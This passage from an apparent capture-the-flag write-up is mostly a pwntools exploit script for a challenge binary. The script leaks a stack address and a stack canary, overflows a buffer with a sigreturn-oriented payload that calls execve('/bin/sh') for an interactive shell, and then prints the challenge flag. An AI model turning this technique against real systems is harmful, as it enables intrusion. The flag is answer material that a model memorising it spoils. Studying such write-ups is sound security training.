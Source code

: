 ```py
# get the stack leak
target.sendlineafter(b"> ", b"4")
buf_leak = int(target.recvline().split()[-1].strip(), 16)

# leak cookie by viewing a buyer
target.sendlineafter(b"> ", b"3")
target.sendlineafter(b"Enter the buyer index: ", b"9") # leak cookie
cookie = target.recvline().split()
print(cookie)
cookie = p32(int(cookie[4])) + cookie[2][:-1]
if (len(cookie) > 8): # some weird magic I did for more reliability or something I think
    cookie = cookie[:-1]
print(len(cookie), cookie, hex(u64(cookie)))

# we also have to insert /bin/sh somewhere
# I chose the first buyer, whose name should be at buf_leak + 4
target.sendlineafter(b"> ", b"1")
target.sendlineafter(b"Enter the buyer index: ", b"0")
target.sendlineafter(b"How long is the buyer's name? ", b"16")
target.sendlineafter(b"Enter the buyer's name: ", b"/bin/sh\x00")

# frame that will call execve(/bin/sh)
frame = SigreturnFrame()
frame.rax = 59            # syscall code for execve
frame.rdi = buf_leak + 4  # point to /bin/sh
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget


# Write cookie properly, prepare the arguments to spice_func and call sigreturn
payload = b"a" * 44 + cookie + b"b" * 8 + spice_func + p64(pop_rbp) + p64(15) + p64(syscall_gadget) + bytes(frame)
print("Payload len: ", len(payload))

target.sendlineafter(b"> ", b"1")
target.sendlineafter(b"Enter the buyer index: ", b"7")
target.sendlineafter(b"How long is the buyer's name? ", b"512")
target.sendlineafter(b"Enter the buyer's name: ", payload)

# Close shop
target.sendlineafter(b"> ", b"5")

# Lisan al Gaib or whatever the cool kids say these days
target.interactive()
```

### Flag

``UMDCTF{use_the_spice_to_see_into_the_srop_future}``

